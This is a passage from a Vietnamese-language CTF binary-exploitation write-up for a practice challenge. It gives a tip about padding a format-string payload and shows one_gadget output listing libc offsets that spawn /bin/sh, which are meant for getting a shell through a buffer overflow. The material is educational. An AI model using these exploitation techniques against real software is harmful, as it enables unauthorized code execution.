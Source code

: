 

:::note
Ta nên setup thêm cho payload `Format String` khoảng từ `0x10-0x30` bytes khoảng trống, để tránh các dữ liệu không đáng muốn bị chèn vào
:::

### Get shell

Khi đã có data được leak hết rồi thì ta dễ dàng dùng `Buffer Overflow` để get shell. Ở đây mình sẽ dùng `onegadget`  vì với input size là `66` thì không đủ để chứa full payload để gọi hàm `system` của ta được.

```bash
alter ^ Sol in ~/pwn/Practice/og
$ one_gadget libc.so.6
0xebc81 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebc85 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebce2 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
alter ^ Sol in ~/pwn/Practice/og
```
